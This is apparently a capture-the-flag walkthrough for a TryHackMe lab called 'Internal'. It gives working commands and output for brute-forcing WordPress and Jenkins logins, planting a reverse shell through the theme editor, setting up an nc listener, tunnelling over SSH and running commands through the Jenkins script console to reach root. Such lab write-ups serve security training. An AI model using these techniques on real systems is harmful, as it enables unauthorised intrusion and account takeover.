






---

Name: Internal
Difficulty: Hard
URL: https://tryhackme.com/room/internal

---

# Solution
Using rustscan we can see what ports are open
```bash
rustscan -a internal.thm --ulimit 5000 -- -sC -sV
```

```bash
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzpZTvmUlaHPpKH8X2SHMndoS+GsVlbhABHJt4TN/nKUSYeFEHbNzutQnj+DrUEwNMauqaWCY7vNeYguQUXLx4LM5ukMEC8IuJo0rcuKNmlyYrgBlFws3q2956v8urY7/McCFf5IsItQxurCDyfyU/erO7fO02n2iT5k7Bw2UWf8FPvM9/jahisbkA9/FQKou3mbaSANb5nSrPc7p9FbqKs1vGpFopdUTI2dl4OQ3TkQWNXpvaFl0j1ilRynu5zLr6FetD5WWZXAuCNHNmcRo/aPdoX9JXaPKGCcVywqMM/Qy+gSiiIKvmavX6rYlnRFWEp25EifIPuHQ0s8hSXqx5
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMFOI/P6nqicmk78vSNs4l+vk2+BQ0mBxB1KlJJPCYueaUExTH4Cxkqkpo/zJfZ77MHHDL5nnzTW+TO6e4mDMEw=
|   256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMlxubXGh//FE3OqdyitiEwfA2nNdCtdgLfDQxFHPyY0
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Lets alo use gobuster to find some of the files and directories the server has to offer
```bash
gobuster dir -u http://internal.thm/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 100 -x txt,php,html,bak,zip,log -k
```

```bash
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://internal.thm/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              bak,zip,log,txt,php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
blog                 (Status: 301) [Size: 311] [--> http://internal.thm/blog/]
wordpress            (Status: 301) [Size: 316] [--> http://internal.thm/wordpress/]
index.html           (Status: 200) [Size: 10918]
javascript           (Status: 301) [Size: 317] [--> http://internal.thm/javascript/]
phpmyadmin           (Status: 301) [Size: 317] [--> http://internal.thm/phpmyadmin/]
```

The findings from gobuster, the page source and wappalyzer confirm that the website is using wordpress



Now we will scan it for vulnerabilities using wpscan
```bash
wpscan --url http://internal.thm/ --enumerate u,vp,vt
```

Its output is really long, you can find it in ./report.md. Since it found the admin user and XML-RPC is enabled we will try to bruteforce his password
```bash
wpscan --url http://internal.thm/blog  --passwords /usr/share/wordlists/rockyou.txt
```
```bash
[!] Valid Combinations Found:
 | Username: admin, Password: my2boys
```

Now we can log into the account, http://internal.thm/blog/wp-login.php



Generate the revershe shell payload using https://www.revshells.com/



Go to Appearance -> Theme Editor -> index.php and change it's content with the reverse shell and update the file



Start a listener
```bash
nc -lvnp 4444
```

Now going to http://internal.thm/blog/index.php gives us the shell

```bash
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Spawn a better shell
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

We go to /opt which is a common directory and find some credentials
```bash
www-data@internal:/opt$ ls -a
ls -a
.  ..  containerd  wp-save.txt
www-data@internal:/opt$ cat wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
```

With them we can change our user
```bash
www-data@internal:/opt$ su aubreanna
Password: bubb13guM!@#123

aubreanna@internal:/opt$ id
uid=1000(aubreanna) gid=1000(aubreanna) groups=1000(aubreanna),4(adm),24(cdrom),30(dip),46(plugdev)
```

Now we get the first flag

```bash
aubreanna@internal:~$ cat user.txt
THM{REDACTED}
```

There is also a jenkins.txt file which informs us about the jenkins server
```bash
aubreanna@internal:~$ cat jenkins.txt
Internal Jenkins service is running on 172.17.0.2:8080
```

The note mentions an internal Jenkins service running on 172.17.0.2:8080. Since this is a private IP address, we first verify whether our compromised machine has access to that network
```bash
aubreanna@internal:~$ ip addr
ip ad
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:97:2e:82:11:31 brd ff:ff:ff:ff:ff:ff
    inet 10.112.151.151/18 brd 10.112.191.255 scope global dynamic eth0
       valid_lft 3225sec preferred_lft 3225sec
    inet6 fe80::97:2eff:fe82:1131/64 scope link 
       valid_lft forever preferred_lft forever
3: docker0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:96:1d:c0:8b brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
    inet6 fe80::42:96ff:fe1d:c08b/64 scope link 
       valid_lft forever preferred_lft forever
5: veth1392fe7@if4: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master docker0 state UP group default 
    link/ether 2a:28:99:84:1d:e5 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet6 fe80::2828:99ff:fe84:1de5/64 scope link 
       valid_lft forever preferred_lft forever
```

We confirm that the service is reachable by pinging 172.17.0.2
```bash
aubreanna@internal:~$ ping 172.17.0.2 -c 4  
ping 172.17.0.2 -c 4
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.032 ms
64 bytes from 172.17.0.2: icmp_seq=2 ttl=64 time=0.039 ms
64 bytes from 172.17.0.2: icmp_seq=3 ttl=64 time=0.039 ms
64 bytes from 172.17.0.2: icmp_seq=4 ttl=64 time=0.041 ms

--- 172.17.0.2 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3065ms
rtt min/avg/max/mdev = 0.032/0.037/0.041/0.008 ms
```

In the meantime I've decided to connect with SSH and the credentials I found. While the reverse shell is sufficient for enumeration, establishing an SSH session provides a stable interactive shell and makes it easy to create port forwards
```bash
ssh aubreanna@internal.thm
bubb13guM!@#123
```

Since Jenkins only listens on the internal Docker network, we cannot access it directly from our attack machine. Using SSH local port forwarding, we tunnel our local port 8080 to the remote host, which can in turn reach the Jenkins container
```bash
ssh -L 8080:172.17.0.2:8080 aubreanna@internal.thm
```

Now we can view the page, http://localhost:8080/



Lets dig further into it
```bash
8080/tcp  open   http              syn-ack      Jetty 9.4.30.v20200611
| http-robots.txt: 1 disallowed entry
|_/
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.30.v20200611)
```

After searching on the internet we find that the default username is admin, https://www.shellhacks.com/jenkins-default-password-username/. Our next step is to bruteforce its password
```bash
    hydra \
    -l admin \
    -P /usr/share/wordlists/rockyou.txt \
    -s 8080 \
    -t 64 \
    -f \
    localhost \
    http-post-form \
    "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:F=loginError"
```

There you have it, the password was spongebob
```bash
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-07-15 16:03:15
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344398 login tries (l:1/p:14344398), ~224132 tries per task
[DATA] attacking http-post-form://localhost:8080/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:F=loginError
[STATUS] 632.00 tries/min, 632 tries in 00:01h, 14343766 to do in 378:16h, 64 active
[STATUS] 609.33 tries/min, 1828 tries in 00:03h, 14342570 to do in 392:19h, 64 active
[8080][http-post-form] host: localhost   login: admin   password: spongebob
[STATUS] attack finished for localhost (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-07-15 16:09:16

```



We now go to the script console, /script, and view what files we have
```bash
def proc = "ls -R".execute()
println proc.text
```

There is note.txt and we take a look at it
```bash
def proc = "cat /opt/note.txt".execute()
println proc.text
```

```txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr0ub13guM!@#123
```

We change our user to root and read the flag
```bash
ubreanna@internal:/opt$ su root
Password: tr0ub13guM!@#123
root@internal:~# id
uid=0(root) gid=0(root) groups=0(root)
root@internal:~# cat /root/root.txt
THM{REDACTED}
```
